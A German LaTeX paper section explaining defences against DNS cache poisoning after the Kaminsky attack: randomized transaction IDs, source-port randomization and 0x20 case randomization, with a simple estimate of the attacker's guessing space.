\section{Schutz gegen den Angriff}
Das eigentliche Problem des Angriffslies sich nicht beheben ohne die Kompatibilität zum bisherigen DNS Protokoll zu verlieren, daher wurden weitere Zufallsquellen neben der bestehenden ID-Randomization eingerichtet.

\subsection*{Gleichverteilte Transaktionsnummern}
Die Transaktionsnummer ist eine 16 Bit lange Zahl die vom Ziel-Server beim erstellen der Anfrage generiert wurde. Sie muss bei der Antwort gleich lauten wie bei der Anfrage und Existierte bereits vor bekannt werden das Angriffs. Manche Implementierungen waren allerdings leicht angreifbar, da die ID nicht zufällig gewählt wurde, sondern einfach bei jeder Anfrage Inkrementiert wurde. War also die Transaktionsnummer einer vorherigen Anfrage bekannt schränkte dies die möglichen Transaktionsnummern erheblich ein. Dies wurde durch einen Pool von zufällig gewürfelten Transaktionsnummern behoben, von denen für die Anfrage zufällig eine ausgewählt wird. Sollten alle möglichen Transaktionsnummern gleichverteilt gewählt werden, ergibt sich eine Wahrscheinlichkeit von $1/2^{16}$ pro Transaktionsnummer. Das alleine reicht jedoch wie im Angriff von Kaminky gezeigt wurde nicht aus um eine verfälschung zu verhindern. 

\subsection*{Port-Randomization}
Früher wurden DNS anfragen standardmäßig über Port 53 gestellt. Dies machte es einfach gefälschte Antworten zu senden. In neueren Implementierungen wurde daher die sogenannte Source-Port-Randomization eingeführt. Hierbei wird der Ausgangsport für die Anfrage zufällig gewählt. Da es erforderlich ist, über den gleichen Port zu antworten, ergeben sich mindestens $2^{11}$ mögliche Ports. Sollten alle möglichen Ports verwendet werden, können bis zu $2^{16}$ Ports erschlossen werden. In Verbindung mit der Gleichverteilung der Transaktionsnummern ergeben sich dann $2^{16} \cdot 2^{11}$ Möglichkeiten.

\subsection*{Random-URL-Capitalizing}
Um die Möglichen Paare für den Angreifer noch weiter zu erhöhen und somit den Angriff noch Unrealistischer zu gestalten, ist eine weitere Methode das Random-URL-Capitalizing oder auch 0x20-Bit Encoding. Hierbei wird die angefragte Domain zufällig in Klein- und Großbuchstaben geschrieben. Die Groß- und Kleinschreibeung ist bei DNS anfragen äquivalent, nach RFC 1034 sollte die Schreibweise bei der Antwort alledings gleich sein wie bei der Anfrage. Die Größe des Zufalls ist hierbei von der Länge der angefragten Domain abhängig. Sei nun $|\mathit{URL}|$ die anzahl der Buchstaben in einer URL so ergeben sich $2^{|URL|}$ Moglichkeiten der Groß- und Kleinschreibung. Sollten also alle 3 Verteidigungsmechanismen verwendet werden, ergeben sich insgesamt $2^{16} \cdot 2^{11} \cdot 2^{|URL|}$ mögliche Kombinationspaare aus Transaktionsnummer, Port, und Groß- und Kleinschreibung die der Angreifer korrekt raten muss.

\end{document}